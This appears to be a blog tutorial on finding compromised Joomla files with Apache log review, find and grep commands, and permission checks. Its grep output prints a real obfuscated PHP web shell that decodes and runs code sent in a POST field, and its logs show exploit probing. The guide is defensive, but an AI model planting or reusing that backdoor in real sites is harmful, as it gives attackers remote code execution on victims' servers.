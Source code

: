 ```yaml
---
description: How to find hacked Joomla files. How to analize your Joomla site to tell if it has been compromised or hacked.
---
```


## Overview

Like every popular Content Management System, there is always going to
be at risk of being attacked or hacked. This article explore some
methods to try to detect the integrity of your website.

Monitor your site regularly.

## Check web server logs

Check primarily for brute force attacks and attempts to upload
files. With Apache in Ubuntu that would tipically mean to analyze
`/var/log/apache2/access.log` and `/var/log/apache2/error.log`

For example, there is someone playing around one of my Joomla websites
trying to explode Wordpress vulnerabilities:

<pre class="shell">
<samp>
<span class="shell-prompt">/var/log/apache2/$</span> <kbd>grep POST access.log</kbd>
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:03 +0000] "POST /wp-content/themes/method/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:14 +0000] "POST /wp-content/themes/modular/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:25 +0000] "POST /wp-content/themes/myriad/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
XXXXXXXX.com:80 193.XXX.XXX.XXX - - [26/Jan/2017:00:07:56 +0000] "POST /wp-content/themes/persuasion/lib/scripts/dl-skin.php HTTP/1.1" 500 363 "-" "Mozilla/5.0 (Windows NT 6.1; rv:34.0) Gecko/20100101 Firefox/34.0"
</samp>
</pre>

## Detect modified PHP files

You can look for PHP files that were modified recently, or after some
date you are sure didn't perform anything to the source code. 

That would show new possibly uploaded scripts or modified files with
injected code in them.

### Find files modified recently

To find recently modified files: <kbd>find /path/to/dir -type f -mtime -7 -ls</kbd>.
The `-mtime` parameter detects when file's data was last modified
*n*24* hours ago, in that case we analyze the previous 7 days.

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -type f -mtime -7 -ls</kbd>
</samp>
</pre>

### Find files modified after a specific date

List files in given directory modified after given date <kbd> find
/path/to/dir -newermt "yyyy-mm-dd"</kbd>.

> -newerXY reference
>               Compares the timestamp of the current file with reference.  The reference argument is normally the name  of  a  file
>               (and  one  of its timestamps is used for the comparison) but it may also be a string describing an absolute time.  X
>               and Y are placeholders for other letters, and these letters select which time belonging to how reference is used for
>               the comparison.
> 
>               a   The access time of the file reference
>               B   The birth time of the file reference
>               c   The inode status change time of reference
>               m   The modification time of the file reference
>               t   reference is interpreted directly as a time
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}

In this example we look for files modified with the current directory
as the base directory and modified after "2016-12-01".

<pre class="shell">
<samp>
<span class="shell-prompt">$</span> <kbd>find . -newermt "2017-01-25" -ls</kbd>
1089538    4 drwxr-xr-x   2 marcanuy www-data     4096 Jan 25 04:13 ./website/logs
</samp>
</pre>

### Finding hacked files with pattern matching

Most of the time injected code will be obfuscated, making it harder to
look for obvious patterns, but we can try some alternatives though.

This code would be tipically inserted as the first line of the PHP
file, starting with a variable, so we can look for that pattern, first
line starting with `<?php $`:

~~~ bash
$ grep -m 1 -r '^<?php \$' .</kbd>
~~~

Output:

~~~ php
./website/components/com_users/views/profile/tmpl/default_params.php:<?php $fields = $this->form->getFieldset('params'); ?>
./website/administrator/cache/com_ajax3j/9411v11.php:<?php $coi=chr(97).chr(115)."\x73".chr(101)."\x72"."\x74";$zioj=chr(98).chr
(97)."\x73"."\x65"."\x36".chr(52)."\x5f"."\x64".chr(101)."c"."\x6f".chr(100).chr(101);$jd=chr(115)."\x74".chr(114)."\x5f"."r".chr(111)
."\x74"."1"."3";@$coi(@$zioj(@$jd($_POST[chr(100).chr(97)."t".chr(97)])));die(); ?>
~~~

First line of the output looks fine, but the second line looks a bit
more than suspicious code, we can decode it and understand what it is
doing before removing it.

## Files with wrong permissions

Check out for writable upload directories. The `find` command can be used to scan for files and folder with
permission 777.

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . \(-type f -o -type d\) -perm 0777 -print </kbd>
</pre>

> -perm mode
>               File's  permission  bits  are  exactly  mode (octal or sym‐
>               bolic).  Since an exact match is required, if you  want  to
>               use this form for symbolic modes, you may have to specify a
>               rather complex mode string.  For example -perm  g=w  will
>               only  match  files  which have mode 0020 (that is, ones for
>               which group write permission is the only  permission  set).
>               It  is more likely that you will want to use the / or -
>               forms, for example -perm -g=w,  which  matches  any  file
>               with  group write permission.  See the EXAMPLES section for
>               some illustrative examples.
> 
> <footer class="blockquote-footer"> <cite>Find man page</cite></footer>
{: class="blockquote"}


Then we can modify it a bit to scan through all the 777 files on the
server and show ones with `.php` to look for uploaded scripts:

<pre class="shell">
<span class="shell-prompt">$</span> <kbd>find . -name "*php" -type f -perm 777</kbd>
</pre>

## Conclusion

A lot of people recommends to install a clean backup after being
hacked, this approach will fail sooner or later because you need to
know what failed to prevent happening again.

This article covers some basic strategies for identifying compromised
files, attacks are constant with varying methods so it is important to
know commands and strategies to recover our sites and keep them safe.

## References

- <http://www.gregfreeman.io/2013/how-to-tell-if-your-php-site-has-been-compromised/>
- <https://www.bluebridgedev.com/hacked-joomla-files>
- <https://www.joomshaper.com/blog/my-joomla-site-was-hacked-what-to-do>
- <https://www.google.com/transparencyreport/safebrowsing/diagnostic/index.html>
- The Joomla Hacking Compendium <https://www.exploit-db.com/papers/15780/>
